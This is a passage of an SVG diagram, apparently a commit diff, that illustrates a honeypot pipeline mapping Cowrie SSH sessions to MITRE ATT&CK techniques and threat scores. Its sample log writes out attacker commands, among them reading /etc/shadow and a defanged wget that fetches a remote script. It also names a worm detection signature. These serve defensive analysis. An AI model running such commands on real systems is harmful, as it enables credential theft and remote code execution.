

<svg xmlns="http://www.w3.org/2000/svg" width="1440" height="980" viewBox="0 0 1440 980" font-family="'IBM Plex Mono', ui-monospace, 'SFMono-Regular', Menlo, monospace">
  <defs>
    <marker id="ahRed" markerWidth="10" markerHeight="10" refX="7" refY="3.2" orient="auto" markerUnits="userSpaceOnUse">
      <path d="M0,0 L7,3.2 L0,6.4 Z" fill="#E5484D" />
    </marker>
    <marker id="ahGrey" markerWidth="10" markerHeight="10" refX="7" refY="3.2" orient="auto" markerUnits="userSpaceOnUse">
      <path d="M0,0 L7,3.2 L0,6.4 Z" fill="#5C5C57" />
    </marker>
    <marker id="ahGreen" markerWidth="12" markerHeight="12" refX="8" refY="4" orient="auto" markerUnits="userSpaceOnUse">
      <path d="M0,0 L9,4 L0,8 Z" fill="#3DD68C" />
    </marker>
    <linearGradient id="recGrad" x1="0" y1="0" x2="0" y2="1">
      <stop offset="0" stop-color="#101a16" />
      <stop offset="1" stop-color="#0c130f" />
    </linearGradient>
    <radialGradient id="dedupGlow" cx="50%" cy="50%" r="50%">
      <stop offset="0" stop-color="#3DD68C" stop-opacity="0.30" />
      <stop offset="0.6" stop-color="#3DD68C" stop-opacity="0.08" />
      <stop offset="1" stop-color="#3DD68C" stop-opacity="0" />
    </radialGradient>
    <filter id="soft" x="-30%" y="-30%" width="160%" height="160%">
      <feGaussianBlur stdDeviation="6" />
    </filter>
    <pattern id="grid" width="34" height="34" patternUnits="userSpaceOnUse">
      <path d="M34 0 L0 0 0 34" fill="none" stroke="#ffffff" stroke-opacity="0.022" stroke-width="1" />
    </pattern>
  </defs>
  <rect width="1440" height="980" fill="#0A0A0B" />
  <rect width="1440" height="980" fill="url(#grid)" />
  <g>
    <circle cx="40" cy="44" r="6" fill="#3DD68C" />
    <circle cx="40" cy="44" r="11" fill="none" stroke="#3DD68C" stroke-opacity="0.4" />
    <text x="62" y="40" fill="#F4F4F2" font-size="20" letter-spacing="1.5" font-weight="600">WRAITHWALL · HONEYPOT → MITRE</text>
    <text x="62" y="62" fill="#8A8A84" font-size="13" letter-spacing="0.5">One raw Cowrie SSH session → structured ATT&amp;CK mapping · deterministic score · order-independent replay-dedup key</text>
    <text x="1400" y="36" text-anchor="end" fill="#5C5C57" font-size="12" letter-spacing="0.5">pure stdlib · no DB · no Redis · no LLM required</text>
    <text x="1400" y="58" text-anchor="end" fill="#5C5C57" font-size="12" letter-spacing="0.5">score = base + cmds·2 + techniques·3  (cap 100)</text>
  </g>
  <line x1="40" y1="84" x2="1400" y2="84" stroke="#23262B" stroke-width="1" />
  <text x="40" y="118" fill="#5C5C57" font-size="12" letter-spacing="2">01 · INGEST — COWRIE LOG → SESSION</text>
  <text x="470" y="118" fill="#5C5C57" font-size="12" letter-spacing="2">02 · DETERMINISTIC ANALYSIS — analyze_session()</text>
  <text x="1095" y="118" fill="#5C5C57" font-size="12" letter-spacing="2">03 · INTELLIGENCE RECORD</text>
  <g>
    <rect x="40" y="150" width="370" height="208" rx="8" fill="#101214" stroke="#23262B" />
    <rect x="40" y="150" width="370" height="30" rx="8" fill="#16191D" />
    <rect x="40" y="168" width="370" height="12" fill="#16191D" />
    <circle cx="60" cy="165" r="4" fill="#5C5C57" />
    <text x="74" y="170" fill="#C7C7C2" font-size="12.5" letter-spacing="1">cowrie.json · raw event stream</text>
    <text x="394" y="170" text-anchor="end" fill="#5C5C57" font-size="11">honeypot-1</text>
    <g font-size="10.5" fill="#8A8A84">
      <text x="60" y="202">{"eventid":"<tspan fill="#4C8DFF">session.connect</tspan>","src_ip":"203.0.113.10"}</text>
      <text x="60" y="222">{"eventid":"<tspan fill="#F5A524">login.success</tspan>","user":"root","pw":"123456"}</text>
      <text x="60" y="242">{"eventid":"command.input","input":"<tspan fill="#C7C7C2">uname -a</tspan>"}</text>
      <text x="60" y="262">{"eventid":"command.input","input":"<tspan fill="#C7C7C2">whoami</tspan>"}</text>
      <text x="60" y="282">{"eventid":"command.input","input":"<tspan fill="#C7C7C2">cat /etc/shadow</tspan>"}</text>
      <text x="60" y="302">{"eventid":"command.input","input":"<tspan fill="#C7C7C2">wget hxxp://…/x.sh -O /tmp/x.sh</tspan>"}</text>
      <text x="60" y="322">{"eventid":"<tspan fill="#5C5C57">session.closed</tspan>","duration":42.7}</text>
    </g>
    <text x="60" y="346" fill="#5C5C57" font-size="10.5">7 JSON events · interleaved across many sessions</text>
  </g>
  <path d="M225,358 L225,398" fill="none" stroke="#5C5C57" stroke-width="1.6" marker-end="url(#ahGrey)" />
  <text x="237" y="382" fill="#8A8A84" font-size="11">parse_sessions()</text>
  <g>
    <rect x="40" y="404" width="370" height="200" rx="8" fill="#101214" stroke="#23262B" />
    <rect x="40" y="404" width="370" height="30" rx="8" fill="#16191D" />
    <rect x="40" y="422" width="370" height="12" fill="#16191D" />
    <circle cx="60" cy="419" r="4" fill="#4C8DFF" />
    <text x="74" y="424" fill="#C7C7C2" font-size="12.5" letter-spacing="1">Session  a1b2c3d4</text>
    <text x="394" y="424" text-anchor="end" fill="#5C5C57" font-size="11">10:00:02Z</text>
    <text x="60" y="458" fill="#8A8A84" font-size="12">src_ip</text>
    <text x="394" y="458" text-anchor="end" fill="#F4F4F2" font-size="13" font-weight="600">203.0.113.10</text>
    <text x="60" y="480" fill="#8A8A84" font-size="12">login</text>
    <text x="394" y="480" text-anchor="end" fill="#C7C7C2" font-size="12">root : 123456  ✓</text>
    <text x="60" y="502" fill="#8A8A84" font-size="12">duration</text>
    <text x="394" y="502" text-anchor="end" fill="#C7C7C2" font-size="12">42.7 s</text>
    <line x1="60" y1="516" x2="390" y2="516" stroke="#23262B" stroke-dasharray="3 4" />
    <text x="60" y="538" fill="#8A8A84" font-size="12">commands (4)</text>
    <g font-size="11" fill="#C7C7C2">
      <text x="60" y="558">1 · uname -a</text>
      <text x="60" y="576">2 · whoami</text>
      <text x="222" y="558">3 · cat /etc/shadow</text>
      <text x="222" y="576">4 · wget …/x.sh</text>
    </g>
    <text x="60" y="596" fill="#5C5C57" font-size="10.5">Session dataclass · one row per SSH/Telnet session</text>
  </g>
  <path d="M410,504 C448,504 448,360 470,360" fill="none" stroke="#5C5C57" stroke-width="1.6" marker-end="url(#ahGrey)" />
  <rect x="470" y="150" width="560" height="700" rx="10" fill="#0E0F11" stroke="#23262B" />
  <text x="492" y="180" fill="#C7C7C2" font-size="13" letter-spacing="1">analyze_session(session)  ·  deterministic core</text>
  <text x="1008" y="180" text-anchor="end" fill="#5C5C57" font-size="11">stdlib only · same input → same output</text>
  <line x1="492" y1="194" x2="1008" y2="194" stroke="#23262B" />
  <g>
    <rect x="492" y="210" width="516" height="150" rx="7" fill="#101214" stroke="#23262B" />
    <rect x="492" y="210" width="4" height="150" rx="2" fill="#4C8DFF" />
    <text x="512" y="234" fill="#4C8DFF" font-size="12.5" letter-spacing="1">① map_techniques — ATT&amp;CK SUBSTRING TABLE</text>
    <text x="512" y="258" fill="#8A8A84" font-size="11">4 lines lower-cased → first matching stage wins  →  dominant = <tspan fill="#4C8DFF">reconnaissance (TA0043)</tspan>
    </text>
    <text x="512" y="278" fill="#5C5C57" font-size="10.5">crude by design: <tspan fill="#8A8A84">cat /etc/shadow</tspan> folds into recon, not credential_access (substring, not ML)</text>
    <g font-size="10.5">
      <rect x="512" y="292" width="76" height="22" rx="4" fill="#16191D" stroke="#2a3340" />
-       <text x="550" y="307" text-anchor="middle" fill="#C7C7C2">T1082</text>
+       <text x="550" y="307" text-anchor="middle" fill="#C7C7C2">T1016</text>
      <rect x="594" y="292" width="76" height="22" rx="4" fill="#16191D" stroke="#2a3340" />
      <text x="632" y="307" text-anchor="middle" fill="#C7C7C2">T1033</text>
      <rect x="676" y="292" width="76" height="22" rx="4" fill="#16191D" stroke="#2a3340" />
-       <text x="714" y="307" text-anchor="middle" fill="#C7C7C2">T1016</text>
+       <text x="714" y="307" text-anchor="middle" fill="#C7C7C2">T1057</text>
      <rect x="758" y="292" width="76" height="22" rx="4" fill="#16191D" stroke="#2a3340" />
-       <text x="796" y="307" text-anchor="middle" fill="#C7C7C2">T1057</text>
+       <text x="796" y="307" text-anchor="middle" fill="#C7C7C2">T1082</text>
      <rect x="840" y="292" width="76" height="22" rx="4" fill="#16191D" stroke="#2a3340" />
-       <text x="878" y="307" text-anchor="middle" fill="#C7C7C2">T1595</text>
+       <text x="878" y="307" text-anchor="middle" fill="#C7C7C2">T1592</text>
      <rect x="922" y="292" width="76" height="22" rx="4" fill="#16191D" stroke="#2a3340" />
-       <text x="960" y="307" text-anchor="middle" fill="#C7C7C2">T1592</text>
-     </g>
-     <text x="512" y="336" fill="#8A8A84" font-size="10.5">Sys Info · Owner/User · Net Config · Process · Active Scanning · Host Recon</text>
+       <text x="960" y="307" text-anchor="middle" fill="#C7C7C2">T1595</text>
+     </g>
+     <text x="512" y="336" fill="#8A8A84" font-size="10.5">Net Config · Owner/User · Process · Sys Info · Host Recon · Active Scanning</text>
    <text x="996" y="336" text-anchor="end" fill="#5C5C57" font-size="11">conf 0.85</text>
  </g>
  <g>
    <rect x="492" y="376" width="516" height="108" rx="7" fill="#101214" stroke="#23262B" />
    <rect x="492" y="376" width="4" height="108" rx="2" fill="#F5A524" />
    <text x="512" y="400" fill="#F5A524" font-size="12.5" letter-spacing="1">② score_session — DETERMINISTIC FORMULA</text>
    <text x="996" y="400" text-anchor="end" fill="#5C5C57" font-size="11">capped at 100</text>
    <g font-size="11.5">
      <text x="512" y="426" fill="#8A8A84">base_for_stage[recon]</text>
      <text x="700" y="426" text-anchor="end" fill="#C7C7C2">5</text>
      <text x="730" y="426" fill="#8A8A84">commands  4 × 2</text>
      <text x="996" y="426" text-anchor="end" fill="#C7C7C2">+ 8</text>
      <text x="512" y="446" fill="#8A8A84">distinct_techniques  6 × 3</text>
      <text x="700" y="446" text-anchor="end" fill="#C7C7C2">+ 18</text>
      <text x="730" y="446" fill="#5C5C57">heuristic triage signal — not a verdict</text>
    </g>
    <line x1="512" y1="458" x2="996" y2="458" stroke="#23262B" />
    <text x="512" y="478" fill="#F4F4F2" font-size="14" font-weight="700">score = 31</text>
    <text x="996" y="478" text-anchor="end" fill="#F5A524" font-size="12">5 + 8 + 18  ·  ≤ 100</text>
  </g>
  <g>
    <rect x="492" y="500" width="516" height="108" rx="7" fill="#101214" stroke="#23262B" />
    <rect x="492" y="500" width="4" height="108" rx="2" fill="#F5A524" />
    <text x="512" y="524" fill="#F5A524" font-size="12.5" letter-spacing="1">③ classify_actor — VOLUME GUESS + 2 OVERRIDES</text>
    <text x="996" y="524" text-anchor="end" fill="#5C5C57" font-size="11">label only</text>
    <g font-size="11.5">
      <text x="512" y="550" fill="#8A8A84">4 cmds ≤ 5  → guess</text>
      <text x="996" y="550" text-anchor="end" fill="#C7C7C2">automated_scanner</text>
      <text x="512" y="570" fill="#8A8A84">mdrfckr + authorized_keys ?</text>
      <text x="996" y="570" text-anchor="end" fill="#5C5C57">no → not outlaw_worm</text>
